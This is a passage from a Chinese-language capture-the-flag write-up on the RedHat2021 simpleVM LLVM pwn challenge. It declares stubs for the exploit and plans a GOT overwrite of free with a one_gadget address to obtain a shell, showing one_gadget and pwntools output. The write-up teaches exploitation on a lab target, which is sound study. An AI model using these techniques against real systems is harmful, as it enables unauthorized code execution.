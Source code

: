 ### Segment 7
![](12.png)
min函数减法操作，有2个参数，第一个参数指定寄存器，第二个参数是要减去的数值。

至此，源码已经全部分析完毕。我们已经可以在exp中编写6个函数的原型了，注意参数的类型和个数。

```c
void o0o0o0o0();
void pop(int reg){};
void push(int reg){};
void store(int reg){};
void load(int reg){};
void add(int reg1, int reg2){};
void min(int reg1, int reg2){};

void o0o0o0o0(){
	
}
```

## Step 5: 编写exp.c，同时进行调试
现在，我们来着手编写exp，重点需要调试load和store这两个函数的执行。

一开始，reg1、reg2、stack中所有的值都为0，由于本题中opt-8程序没有开启PIE保护，因此其加载基址固定不变，我们可以利用这个获取到其got表中的地址，将其拷贝到reg或stack中。然后在此基础上计算出one_gadget的地址，将其写回到got表，即可执行one_gadget，逻辑很简单。

在这里，我们选择free函数作为地址覆盖的对象，找到opt程序中free函数got表的位置为0x77E100。因此o0o0o0o0函数的第一条语句应该是：``add(1, 0x77E100);``。然后使用load函数将got表中地址值保存到另一个寄存器中：``load(1);``。现在我们想要的地址在reg2中，加上相应的one_gadget偏移。与上一题相同，这里使用的是笔者虚拟机的libc而不是题目给的libc：

```
root@ubuntu:~/Desktop/LLVM/challenges/RedHat2021-simpleVM# one_gadget /lib/x86_64-linux-gnu/libc.so.6
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```
找到free函数偏移：
```
root@ubuntu:~/Desktop/LLVM/challenges/RedHat2021-simpleVM# python3
Python 3.8.10 (default, Jun 22 2022, 20:18:18) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
>>> print(hex(libc.symbols['free']))
0x9a6d0
>>> 
```